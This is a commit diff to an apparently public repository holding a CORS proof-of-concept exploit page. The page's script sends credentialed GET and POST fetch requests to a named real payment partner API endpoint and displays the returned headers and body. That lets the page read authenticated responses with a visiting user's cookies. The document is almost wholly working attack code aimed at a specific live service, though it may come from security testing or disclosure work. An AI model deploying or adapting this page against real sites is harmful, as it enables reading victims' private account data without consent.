

Before and after one commit to HamzaElhadidy/cors_poc, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-722 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,37 +1,66 @@
 <!DOCTYPE html>
 <html>
   <head>
-    <title>CORS PoC Exploit - Debug and changes</title>
+    <title>CORS PoC Exploit - Debug</title>
   </head>
   <body>
     <h1>Proof of Concept - CORS Exploit (Debug Mode)</h1>
-    <button onclick="exploit()">Run Exploit</button>
+
+    <button onclick="exploitGET()">Run Exploit (GET)</button>
+    <button onclick="exploitPOST()">Run Exploit (POST)</button>
 
     <pre id="output"></pre>
 
     <script>
-      function exploit() {
-        const target = "https://partner-api.alipayplus.com/api/aplus/applySupport.json";
+      const target = "https://partner-api.alipayplus.com/api/aplus/applySupport.json";
 
+      // ============ GET request ============
+      function exploitGET() {
         fetch(target, {
-          method: "POST",
+          method: "GET",
           credentials: "include"
         })
         .then(async response => {
           let headers = "";
-          response.headers.forEach((v, k) => {
-            headers += k + ": " + v + "\n";
-          });
-
+          response.headers.forEach((v, k) => headers += k + ": " + v + "\n");
           const text = await response.text();
 
           document.getElementById("output").textContent =
+            "=== GET Request ===\n" +
             "Status: " + response.status + "\n\n" +
             "Headers:\n" + headers + "\n" +
             "Body:\n" + (text || "[empty body]");
         })
         .catch(error => {
-          document.getElementById("output").textContent = "Error: " + error;
+          document.getElementById("output").textContent =
+            "GET Error: " + error;
+        });
+      }
+
+      // ============ POST request ============
+      function exploitPOST() {
+        fetch(target, {
+          method: "POST",
+          credentials: "include",
+          headers: {
+            "Content-Type": "application/json"
+          },
+          body: JSON.stringify({ test: "CORS exploit" })
+        })
+        .then(async response => {
+          let headers = "";
+          response.headers.forEach((v, k) => headers += k + ": " + v + "\n");
+          const text = await response.text();
+
+          document.getElementById("output").textContent =
+            "=== POST Request ===\n" +
+            "Status: " + response.status + "\n\n" +
+            "Headers:\n" + headers + "\n" +
+            "Body:\n" + (text || "[empty body]");
+        })
+        .catch(error => {
+          document.getElementById("output").textContent =
+            "POST Error: " + error;
         });
       }
     </script>
```
